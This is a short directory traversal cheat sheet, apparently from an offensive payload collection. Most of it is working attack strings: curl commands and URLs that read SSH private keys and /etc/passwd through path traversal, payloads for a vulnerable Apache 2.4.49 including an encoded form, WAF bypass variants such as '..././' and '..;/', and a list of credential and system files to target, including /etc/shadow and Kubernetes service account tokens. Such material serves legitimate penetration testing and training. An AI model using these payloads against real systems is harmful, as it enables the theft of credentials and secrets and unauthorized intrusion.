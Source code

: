 ssh key via Directory Traversal:
```
http://domain.com/meteor/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa
```

Via curl:
```
curl
http://domain.com/meteor/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa
```
NOTE: try also to find other types of keys like ECDSA with id_ecdsa.

#### Different Encoding

Directory traversal vulnerability in **Apache 2.4.49**
```
curl http://192.168.50.16/cgi-bin/../../../../etc/passwd
```

Other encoding:
```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### Bypass "../" replaced by ""

Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```
..././
...\.\
```
#### Bypass "../" with ";"

```
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt
```

#### Interesting Linux files

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
```
